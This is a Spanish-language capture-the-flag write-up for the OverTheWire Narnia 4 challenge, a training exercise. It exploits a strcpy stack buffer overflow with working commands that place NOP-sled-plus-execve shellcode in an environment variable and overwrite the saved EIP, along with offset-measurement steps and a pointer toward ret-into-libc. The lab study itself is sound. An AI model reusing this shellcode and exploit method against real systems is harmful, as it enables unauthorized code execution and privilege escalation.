

# `> [NARNIA 4]`

```bash
$ ssh narnia4@narnia.labs.overthewire.org -p 2226

$ echo $TARGET
> un buffer clásico · un argumento sin control · veintidós años de mitigaciones ausentes

$ echo $VECTOR
> stack buffer overflow · NOP sled · shellcode en variable de entorno · sobreescritura de EIP
```

---

## `> [RECON]`

```bash
$ cat /narnia/narnia4.c
```

```c
char buffer[256];
strcpy(buffer, argv[1]);
```

Dos líneas. Sin lógica de negocio. Sin validación.
Un conducto.

Si le das más de 256 bytes, `strcpy` sigue empujando datos por la pila
hasta aplastar el Frame Pointer y el Saved EIP.

Ya viste esto antes. La diferencia es el tamaño del buffer y el offset.
El principio es el mismo desde Narnia 2.

---

## `> [HYPOTHESIS]`

```diff
+ buffer acepta 256 bytes. el EIP guardado vive más allá.
+ GCC introduce padding — el offset real no es 256.
+ controlar EIP = controlar a dónde salta la CPU en ret.
+ PAYLOAD en variable de entorno = dirección más estable que en argv.
+ NOP sled compensa la imprecisión de la dirección.
- metí la shellcode al principio del buffer sin calcular el offset.
- asumí que la dirección de la pila en GDB era la misma afuera. no lo es.
```

---

## `> [ATTEMPTS]`

<details>
<summary><code>// m1sm0 pr1nc1p10. d1st1nt4 g30m3tr14.</code></summary>

```bash
# — intento 1
$ /narnia/narnia4 $(python3 -c 'print("A"*300)')
# Segmentation fault. EIP = 0x41414141.
# el crash está. pero esto no es control.

# — intento 2
gdb$ run $(python3 -c 'from pwn import *; print(cyclic(300).decode())')
gdb$ info registers eip
# EIP tiene un fragmento del patrón cíclico.
# cyclic_find() → 268.
# 256 (buffer) + 8 (padding GCC) + 4 (EBP) = 268 bytes hasta EIP.

# — intento 3
# shellcode directo en argv. dirección estimada de la pila.
$ /narnia/narnia4 $(python3 -c 'import sys; sys.stdout.buffer.write(b"\x90"*200 + b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80" + b"A"*44 + b"\x00\x00\x00\x00")')
# Segmentation fault en dirección incorrecta.
# GDB desplaza la pila. lo que ves adentro no es lo que hay afuera.

# — intento 4 — ahí.
$ export PAYLOAD=$(python3 -c 'import sys; sys.stdout.buffer.write(b"\x90"*500 + b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")')
# programa auxiliar para obtener la dirección real de PAYLOAD en el proceso.
# dirección: 0xffffd8a0
$ /narnia/narnia4 $(python3 -c 'import sys; sys.stdout.buffer.write(b"A"*268 + b"\xa0\xd8\xff\xff")')
```

```txt
offset: 268.
dirección: 0xffffd8a0.
shell: narnia5.
```

</details>

---

## `> [BREAK]`

```
direcciones bajas ↓

  [         buffer (256 bytes)        ] [ padding (8) ] [ EBP (4) ] [ Saved EIP ]
   0 ...................................255  256......263   264...267   268...271

direcciones altas ↑
```

Después del overflow:

```
  [ A * 268 ]  [ \xa0\xd8\xff\xff ]
                ↑ nuevo EIP ↑
                apunta al NOP sled en PAYLOAD
```

Piénsalo como una pista de aterrizaje.
El avión no necesita tocar exactamente el metro marcado —
necesita que la pista sea suficientemente larga para frenar.
El NOP sled es eso: 500 instrucciones que no hacen nada,
un margen de error calculado para que la shellcode siempre quede al final.

La CPU llega a `ret`. Salta a la dirección. Se desliza por los NOPs.
Encuentra `execve("/bin//sh")`. Ejecuta.
El proceso corre como narnia5.

Esto funciona porque la pila ejecuta y ASLR no existe.
En 1998, **nergal** publicó cómo atacar cuando esas condiciones desaparecen.
Sin shellcode propia. Sin pila ejecutable.
Solo un salto hacia `system()` dentro de libc
y `/bin/sh` como argumento.

El NOP sled que acabas de usar sería inútil en ese escenario.

> *→ [`/lore/nergal.md`](../lore/nergal.md)*

---

## `> [EXPLOIT]`

```bash
export PAYLOAD=$(python3 -c 'import sys; sys.stdout.buffer.write(b"\x90"*500 + b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")')
/narnia/narnia4 $(python3 -c 'import sys; sys.stdout.buffer.write(b"A"*268 + b"\xa0\xd8\xff\xff")')
```

```
\x90*500              → NOP sled. pista de aterrizaje.
                         500 porque el buffer es más grande y hay más ruido.
\x31\xc0...\xcd\x80  → execve("/bin//sh"). 24 bytes.
b"A"*268              → 256 + 8 + 4. medido, no adivinado.
b"\xa0\xd8\xff\xff"  → little endian. la CPU lee al revés.
```

---

## `> [FLAG]`

```
[REDACTED]
```

> n0 m3 l4 d1g4s. n0 m3 1nt3r3s4.
> 3l pr3m10 n0 3s un str1ng d3 t3xt0.

---

## `> [REFLECTION]`

```diff
+ el offset cambia con el tamaño del buffer. siempre medir con cyclic().
+ NOP sled más grande cuando hay más incertidumbre en la dirección.
+ GDB desplaza la pila. programa auxiliar para la dirección real, siempre.
+ PAYLOAD en entorno = más estable que en argv. patrón que se repite.
- shellcode en argv con dirección adivinada → salto al vacío.
- confiar en el tamaño declarado del buffer sin medir → offset incorrecto.
```

---

## `> echo $CHALLENGE`

El NOP sled funciona porque la pista es larga y no hay viento.
Pila ejecutable. Sin ASLR. Condiciones de laboratorio.

Quita una de esas condiciones y el modelo colapsa.
Quita las dos y necesitas repensar todo desde el principio.

nergal lo hizo en 1998.
No necesitó shellcode propia.
Usó el código que el sistema ya tenía cargado en memoria.

La pregunta no es cómo explotar esto.
La pregunta es: **¿qué queda cuando te quitan las herramientas?**

Busca **ret-into-libc**.
Busca cómo `system()` y `"/bin/sh"` ya están en memoria antes de que el programa haga nada.
Busca por qué eso convierte la librería estándar en arma.

El ataque más elegante no inyecta nada.
Convence al sistema de que se ataque a sí mismo.

---

```
█████████████████████████████████████████████
█                                           █
█   3l m3j0r c0d1g0 3s 3l qu3 y4 3x1st3.  █
█         s0l0 h4y qu3 4punt4r.            █
█                                           █
█████████████████████████████████████████████
```

> *→ [youtube.com/@t474-r0b07](https://youtube.com/@t474-r0b07)*
> *→ siguiente: [narnia5](../narnia5/)*

---
<!-- 0x72 0x65 0x74 // 3l r3t0rn0 3s s0l0 un4 d1r3cc10n. -->
